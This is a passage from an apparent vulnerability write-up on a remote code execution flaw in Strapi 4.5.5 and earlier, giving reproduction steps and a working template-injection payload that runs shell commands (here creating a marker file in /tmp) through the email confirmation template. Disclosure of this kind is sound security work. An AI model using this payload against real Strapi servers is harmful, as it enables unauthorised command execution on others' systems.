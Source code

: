 ![](./images/project-info.png)

However, you should be able to reproduce the following steps for all versions of Strapi <=4.5.5. You can even exploit the vulnerability without having email configured, since Strapi will still execute `sendTemplatedEmail` and attempt to send the email using the default `sendmail` provider.

1. Login with an administrator account and on the admin panel go to Settings > Users & Permissions Plugin > Email templates.
    
2. Modify the Email address confirmation template and add the following payload (I will explain how it works later in this article). The payload will create a folder at `/tmp/strapi-confirm` and place a file at `/tmp/strapi-confirm/rce` when triggered.

*The POC payload*
```text
<%= `${ process.binding("spawn_sync").spawn({"file":"/bin/sh","args":["/bin/sh","-c","mkdir /tmp/strapi-confirm; touch /tmp/strapi-confirm/rce"],"stdio":[{"readable":1,"writable":1,"type":"pipe"},{"readable":1,"writable":1,"type":"pipe"/*<>%=*/}]}).output }` %>
```

Place the POC payload into the Email Address Confirmation Template and save it.

*Modifying the Email Address Confirmation Template*
![](./images/email-template-payload.png)
